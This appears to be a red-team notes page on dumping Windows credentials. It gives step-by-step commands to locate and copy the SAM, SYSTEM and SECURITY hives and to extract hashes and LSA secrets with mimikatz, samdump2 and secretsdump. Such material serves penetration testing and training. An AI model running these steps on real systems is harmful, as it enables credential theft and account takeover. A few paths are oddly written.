 # Living off the Land

## 1.1 - Dumping SAM hashes manually

### 1.1.1 - Common Windows hive files locations

```
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
C:\Windows\Repair\SAM
C:\Windows\Repair\SYSTEM
```

### 1.1.2 - Gather hive files locations

#### 1.1.2.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

#### 1.1.2.2 - Powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

### 1.1.3 - Enumerate hive files

#### 1.1.3.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
C:\> icacls C:\Windows\System32\config\SYSTEM
C:\> icacls C:\Windows\System32\config\SAM
C:\> icacls C:\Windows\Repair\SAM
C:\> icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

#### 1.1.3.2 - Powershell

TODO: Fill this info

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

### 1.1.4 - Save the hashes via `registry`

```
C:\> reg save hklm\security c:\temp\security
reg save hklm\system c:\temp\system
reg save hklm\sam c:\temp\sam
```

### 1.1.5 - Use the `copy` command

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

### 1.1.6 - Hashdump

#### 1.1.6.1 - Dumping SAM credentials with `mimikatz`

`mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam`

#### 1.1.6.2 - Dumping SAM credentials with `samdump2`

Note: This works for older operating systems to Windows 8.1. It is recommend that you use [[#^ab4c64|impacket secretsdump]] for latest windows versions.

`$ samdump2 system sam -o hashdump.txt`

#### 1.1.6.3 - Dumping SAM credentials with `secretsdump`

^ab4c64

Instead of storing the hashes on the compromised target use the **File Transfer techniques.** Once that the process is done we can dump the hashes using one of the impacket scripts called `secretsdump`.

The syntax for `secretsdump` is:

`$ secretsdump -sam sam -system system local`

`$ secretsdump -sam sam -security security -system system local`

### 1.1.7 - LSASS Secrets

#### 1.1.7.1 - Dumping LSASS secrets credentials with `mimikatz`

`mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security`

---
## References

- [Samdump2](https://salsa.debian.org/pkg-security-team/samdump2)

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
